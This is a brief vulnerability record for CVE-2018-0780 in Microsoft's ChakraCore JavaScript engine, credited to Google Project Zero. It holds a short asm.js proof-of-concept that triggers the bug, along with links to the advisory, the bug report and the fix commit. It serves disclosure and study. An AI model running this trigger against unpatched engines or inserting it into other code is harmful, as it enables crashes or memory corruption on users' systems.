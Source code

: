 # CVE-2018-0780

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function Module() {
    'use asm';
    function f() {
        arr();
    }

    function g() {
    }

    var arr = [g];
    return f;
}

let f = Module();
f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0780)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1433)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/7013465065167ce9626d946d763b22e5f6a0566a)